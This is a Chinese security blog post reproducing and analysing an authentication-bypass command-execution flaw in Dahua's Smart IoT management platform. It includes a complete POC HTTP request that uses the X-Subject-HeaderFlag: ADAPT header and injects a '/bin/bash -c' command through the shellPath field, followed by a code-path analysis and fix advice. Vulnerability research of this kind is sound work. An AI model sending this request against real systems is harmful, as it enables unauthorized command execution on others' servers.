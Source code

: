 #  【漏洞复现】大华智能物联网综合管理平台 receive 命令执行漏洞  
原创 PokerSec  PokerSec   2025-07-22 01:01  
  
> 目前该漏洞互联网上资产基本都已修复，官方应该是做了热补丁，本文只做记录分析学习。  
  
  
****  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
大华智能物联综合管理平台，作为浙江大华技术股份有限公司推出的一款集成了多项业务管理功能的平台软件，该平台主要面向智能园区、商业综合体等多种应用场景，旨在提供一个全面、高效的解决方案，为客户提供一套集成、高效、开放、灵活可扩展、可定制的平台软件产品。功能全面、灵活可扩展、安全可靠的智能物联基础软件平台，能够满足企业在不同场景下的各种业务需求，助力企业实现数智化转型升级。大华智能物联综合管理平台receive和push接口存在命令执行漏洞，攻击者可利用该漏洞获取系统权限。  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpDzIUQictcTUullPOcNfKv7fe4MI3VCytmWyI29ziaMUIdawtWaZOug9w/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
POST /evo-runs/v1.0/receivePOST /evo-runs/v1.0/push
```  
```
POST /evo-runs/v1.0/receive HTTP/1.1Host: xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0Connection: closeContent-Length: 258Content-Type: application/jsonX-Subject-Headerflag: ADAPTAccept-Encoding: gzip, deflate{ "method": "agent.ossm.mapping.config", "info": {  "configure": "abcd",  "filePath": "haha",  "paramMap": {   "shellPath": "/bin/bash -c id>/opt/evoWpms/static/xxx.txt",   "filePath": "abc"  },  "requestIp": ""}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpzu0YQZZiajTAvlzLPxjYjibbA3SEyKGPF3bacIkM8BZp39tvBpOGwPhQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicptcULh9iclUKm26iar4fNlnWyeJcJSwWIWIbibY5Xnxz9SyhFeb1s6ibgIw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
com/dahua/evo/runs/filter/AuthFilter.java中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpZU1MzX5YMN4j0R7qkuQ744303nmA30FpWW9gxSSumm4QyyeHK80KVw/640?wx_fmt=png&from=appmsg "")  
  
直接查看doFilter 方法，根据代码备注，可以发现如果header中包含X-Subject-HeaderFlag 为ADAPT 则不鉴权（刚开始还以为是adapt poc标记呢），如果方法在set中，则不进行鉴权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpGLjyBZEAk3tFnnicrpGqRAllXzpscibV49RXFlQDZ4hPR7XHMh1ebQcQ/640?wx_fmt=png&from=appmsg "")  
  
看看放行方法怎么设置的，是从配置文件读取的，根据鉴权，如果在这里面的方法是可以直接调的，不在的就需要鉴权，但又可以header中包含X-Subject-HeaderFlag : ADAPT 进行绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpXwhjCgWHia0msX2yARbx8e2c4O3rtwiaibibolf092vKBzcnM7peBvyHCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpq8wWr2WFI8WQ17Xhl1T4jlFDSOUlcHAAjLo3icyOsZhE22qn4rvcvYw/640?wx_fmt=png&from=appmsg "")  
  
跟进路由  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpoojTwaUQaVoJ1RribCchLbWFn1lp5icibj45vWIpyiaCSewpbTqdUW2FSg/640?wx_fmt=png&from=appmsg "")  
  
解析请求体（@RequestBody  
）为 AgentMsgParam  
 对象  
  
调用业务服务 msgDealService.msgDeal()  
 处理消息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicplZtsG7Sa6K3pbibV07ibzO9aGJ0QicQRAKMHgfE0XYpwTL8OThRWr2qcw/640?wx_fmt=png&from=appmsg "")  
  
设置为本次漏洞可利用的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpCQj2mlsHXib4z61kuVGRe2GbttdaiaZ4oFpFNviaiaBic8HACcmICMO0ydg/640?wx_fmt=png&from=appmsg "")  
  
跟进去就是runtime 执行系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicp8MDp8muhDib0hljnrHDVlA1bPYVzfnJotHYNibFB0GLfibR5JicIv7ic4Fw/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
  
1.关闭互联网暴露面或接口设置访问权限  
  
2.联系官方获取补丁信息：https://www.dahuatech.com/  
  
  
  
如有侵权，请及时联系删除。  
  
